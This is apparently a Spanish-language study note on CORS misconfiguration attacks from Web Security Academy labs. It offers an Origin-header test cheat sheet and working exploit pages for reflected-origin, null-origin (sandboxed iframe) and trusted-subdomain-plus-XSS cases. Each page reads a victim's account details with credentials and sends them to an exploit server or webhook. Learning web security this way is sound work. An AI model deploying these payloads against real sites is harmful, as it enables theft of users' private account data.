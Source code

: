 <hr>
## Qué es CORS (compartición de recursos de todo origen)

El intercambio de recursos de origen cruzado (CORS) es un mecanismo de navegador que permite el acceso controlado a los recursos situados fuera de un dominio determinado. Se extiende y añade flexibilidad a la política de un mismo origen (SOP). Sin embargo, también ofrece potencial para ataques entre dominios, si la política CORS de un sitio web está mal configurada e implementada. CORS no es una protección contra ataques de origen cruzado, como la solicitud de falsificación de sitios (CSRF).

## Por qué es necesaria la política de la misma originación?

Cuando un navegador envía una solicitud HTTP de un origen a otro, cualquier cookies, incluidas las cookies de sesión de autenticación, relevantes para el otro dominio también se envían como parte de la solicitud. Esto significa que la respuesta se generará dentro de la sesión del usuario, e incluirá cualquier dato relevante que sea específico para el usuario. Sin la política del mismo origen, si usted visitó un sitio web malicioso, sería capaz de leer sus correos electrónicos de GMail, mensajes privados de Facebook, etc.

<hr>

Cheat Sheet:

Primeros Teste en caso de que encuentre un CORS ->

- Access-Control-Allow-Credentials?
- Change the origin header to an arbitrary value
	- Origin: LoqueSeaHP
- Change the origin header to the null value
	- Origin: null
- Change the origin header to one that begins with the origin of the site: 
	- Origin: hackersnormal-website.com
- Change the origin header to one that ends with the origin of the site.
	- Origin: normal-website.com.evil-user.net

<hr>

##### CORS Template

*  `/AccountDetails`

* Origin: `exploit-ID-EXPLOIT-SERVER.exploit-server.net` : Pa' ver si vemos reflejado el dominio del exploit, y tiramos el script en el server y deliver exploit to victim.

```html
<html>
        <body>
                <script>
   var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://ID-LAB.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
        </body>
</html>
```

* Revisar los logs. 

##### CORS when Origin allows null option

* `/AccountDetails`

* Origin: `Access-Control-Allow-Origin: null` : Pa' ver si vemos reflejado el null en la response, y entonces tiramos el ataque -> 

Algo super importante para considerar con este tipo de ataques que implementan los iframes, es mantener siempre bien estructurados los espaciados del iframe, ya que de otra forma no se ejecutaría correctamente, también para tenerlo mucho en cuenta con los ataques clickjacking que también implementan los iframes.

```html
<html>
        <body>
                <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = function(){
	location='https://webhook.site/c112fb6b-6dda-4608-a883-f330be43cbd6/log?key='+encodeURIComponent(this.responseText);
    };
    req.open('get','https://ID-LAB.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
</script>"></iframe>
        </body>
</html>

//PAYLOAD FINAL
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, 
  <script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://ID-LAB.web-security-academy.net/accountDetails',true);
  req.withCredentials = true;
  req.send();

  function reqListener() {
    location='https://exploit-ID-SERVER.net/log?key='+encodeURIComponent(this.responseText);
  };
  </script>
">
</iframe>

```

##### CORS vulnerability with trusted insecure protocols

* `/AccountDetails`

* Origin: `subdomainEvil.ID-LAB.web-security-academy.net` : Cuando un subdominio puede ser añadido al CORS. 
* Para el caso puntual de este ataque en este Lab, debíamos añadir el subdominio del lab el cual era vulnerable al XSS: (en este caso `stock.ID-LAB.web-security...`)
	* Origin: `http://stock.ID-LAB.web-security-academy.net/`
	* Se supone que es trusted insecure protocols, porque la pagina se maneja en https pero el subdominio vuln a XSS se maneja en http, y así mismo lo añadimos en `Origin`

```js
//Primera parte, el script XSS a añadir en el param vuln. 
//stock.ID-LAB.web-security-academy.net/?productId=<script></script>
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a50000c0455b2a880c167e8007c00d2.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//exploit-0a7100d304dbb20b80d56699012e0068.exploit-server.net/log?key='+this.responseText;
};
</script>
//PAYLOAD FINAL: 
//(Todo el script payload de ?productId=<script>...debe ser fielmente encoded to URL)
<script>
		document.location="http://stock.ID-LAB.web-security-academy.net/?productId=<script> var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://ID-LAB.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send();  function reqListener() {  location='//ID-EXPLOIT.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=3";
</script>

```


Listo finished CORS.